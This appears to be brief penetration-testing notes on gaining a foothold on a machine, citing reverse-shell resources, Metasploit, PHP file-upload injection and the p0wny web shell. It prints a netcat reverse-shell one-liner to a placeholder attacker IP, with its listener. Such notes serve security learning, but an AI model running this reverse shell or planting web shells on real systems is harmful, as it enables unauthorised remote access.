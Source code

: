 # Getting a Foothold on a Machine

- With reverse shell code, there is two websites to keep note of to find reverse shells:
    - PayloadAllTheThings
    - HighOn,Coffee
- Using metasploit will get us a good idea of if it can execute a shell for us. Open msfconsole and search the website in questi
    - once in a shell a good tip is to use the command “env” this will give you environmental variables
- If we see a page on a website that allows Uploads we can attempt to inject code
    - When dealing with PHP injection we must try **ALL the different PHP file types**.

[File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload?source=post_page-----791ad6dd24ed--------------------------------)

- The shell below is a great tool to implement when we see an opportunity to get a shell in an upload image situation
    - https://github.com/flozz/p0wny-shell
- Below is a reverse shell commonly used. This reverse shell can also be used to forward a shell to yourself from the victim machine

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKINGIP PORT >/tmp/f
```

```php
nc -lvnp "SAME PORT AS REVERSE SHELL"
```